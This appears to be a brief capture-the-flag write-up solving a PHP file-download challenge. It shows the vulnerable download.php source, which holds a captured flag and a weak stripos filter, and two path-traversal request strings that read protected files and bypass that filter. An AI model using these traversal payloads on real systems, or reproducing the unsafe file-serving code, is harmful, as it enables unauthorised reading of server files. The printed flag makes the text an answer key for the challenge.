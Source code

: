Vulnerability : download.php?f=951470281beb8a490a941ac73bd10953

**1- Download "download.php" **<br>
download.php?f=../download.php
```php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```
**2- Read "file_list.php" **<br>

download.php?f=file_list../../file_list.php


